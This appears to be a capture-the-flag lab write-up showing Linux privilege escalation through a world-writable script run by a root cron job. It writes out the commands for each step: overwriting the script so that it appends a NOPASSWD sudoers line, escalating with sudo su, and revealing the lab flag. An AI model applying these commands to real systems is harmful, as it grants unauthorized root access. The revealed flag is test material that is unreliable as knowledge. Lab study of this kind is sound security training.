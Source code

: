 # 🔬Cron Jobs

## Lab 1

>  🔬 [Cron Jobs Gone Wild II](https://www.attackdefense.com/challengedetails?cid=77)
>
>  - **Cron Jobs** Privilege escalation
>  - Already logged on as `student` unprivileged user

```bash
whoami
groups student
cat /etc/passwd
crontab -l
```

> 📌 `student` user has no privileges and no scheduled cron jobs

![](assets/image-20230319190830023.png)

```bash
ls -l
	-rw------- 1 root root 26 Sep 23  2018 message
# "message" file has root permissions
```

### Cron Jobs Identify

- Look for all occurences of the path or the file, on the system

```bash
find / -name message
    /home/student/message
	find: '/var/lib/apt/lists/partial': Permission denied
    [...]
    /tmp/message
```

```bash
grep -rnw /usr -e "/home/student/message"
	/usr/local/share/copy.sh:2:cp /home/student/message /tmp/message
```

- The file has been copied into the /tmp directory

```bash
cat /tmp/message
	Hey!! you are not root :(
```

- Check `copy.sh` privileges

```bash
ls -al /usr/local/share/copy.sh
	-rwxrwxrwx 1 root root 74 Sep 23  2018 /usr/local/share/copy.sh
	
cat /usr/local/share/copy.sh
    #! /bin/bash
    cp /home/student/message /tmp/message
    chmod 644 /tmp/message
```

### Privesc

- Every user account has read/write/execute permissions on the `copy.sh` script
- The script is writable by the `student` user. Modify the script to execute a command (`e.g.` a*dding **student** to `sudoers` file*).
  - When the script is executed by `root` cron job (*every 1 min for this lab*), it will run commands with pivileged permissions
  - No text editors available in the lab

```bash
printf '#!/bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh

cat /usr/local/share/copy.sh
    #!/bin/bash
    echo "student ALL=NOPASSWD:ALL" >> /etc/sudoers
```

```bash
sudo -l

    User student may run the following commands on attackdefense:
        (root) NOPASSWD: /etc/init.d/cron
        (root) NOPASSWD: ALL
```

![sudo -l](assets/image-20230319192443704.png)

```bash
sudo su
whoami
	root
cd /root
cat flag
```

```bash
crontab -l
	*/01 * * * * sh /usr/local/share/copy.sh *
```



<details>
<summary>Reveal Flag: 🚩</summary>



`697914df7a07bb9b718c8ed258150164`

![](assets/image-20230319192539065.png)

</details>

------

